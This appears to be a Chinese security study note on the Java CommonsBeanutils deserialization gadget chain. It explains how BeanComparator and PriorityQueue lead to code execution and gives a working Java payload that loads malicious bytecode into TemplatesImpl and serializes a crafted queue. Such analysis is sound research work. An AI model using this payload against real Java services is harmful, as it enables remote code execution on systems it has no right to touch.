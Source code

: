 成功弹出计算器



在`BeanComparator`中的`compare`方法中有调用getProperty

![image-20220321144513243](https://blue-satchel.oss-cn-chengdu.aliyuncs.com/img/image-20220321144513243.png)

从这里开始就和CC2前半部分一样了,通过`PriorityQueue`类的`readObject`会调用到`compare`方法,

但是BeanComparator有个问题

> 意外发现

但是我在偶然的尝试中发现初始化的时候传入`Beancomparator`,只需要在反射之后再次设置`comparator`参数为`beanComparator`,还是能继续触发,但是这个时候队列add的时候需要第二个是templates,而不是第一个是templates,完事自己探究一下

![image-20220321225636931](https://blue-satchel.oss-cn-chengdu.aliyuncs.com/img/image-20220321225636931.png)





因为Integer里面没有`getOutputProperties`方法,所以会报错,在初始化优先队列的时候传入一个之前CC2中用的`transformingComparator`,,等到add完成之后再通过反射修改`comparator`参数为`beanComparator`

这里就有一个比较重要的思想,就是本地构造类的时候包和目标机器不一致是可以的,只要保证序列化进去的时候修改掉就行

payload

```java
TemplatesImpl templates=new TemplatesImpl();
        Class<? extends TemplatesImpl> templatesClass = templates.getClass();
        Field name = templatesClass.getDeclaredField("_name");
        name.setAccessible(true);
        name.set(templates,"aaa");
        Field bytecodes = templatesClass.getDeclaredField("_bytecodes");
        bytecodes.setAccessible(true);
        byte[] code= Files.readAllBytes(Paths.get("H:\\java\\classTest\\MyClass.class"));
        byte[][] codes={code};
        bytecodes.set(templates,codes);

        Field tfactory = templatesClass.getDeclaredField("_tfactory");
        tfactory.setAccessible(true);
        tfactory.set(templates,new TransformerFactoryImpl());
        BeanComparator beanComparator = new BeanComparator("outputProperties");

        TransformingComparator transformingComparator = new TransformingComparator(new ConstantTransformer(1));

        PriorityQueue priorityQueue = new PriorityQueue<>(transformingComparator);
        priorityQueue.add(templates);
        priorityQueue.add(1);
        Class<? extends PriorityQueue> priorityQueueClass = priorityQueue.getClass();
        Field declaredField = priorityQueueClass.getDeclaredField("comparator");
        declaredField.setAccessible(true);
        declaredField.set(priorityQueue,beanComparator);

        serialize(priorityQueue);
```
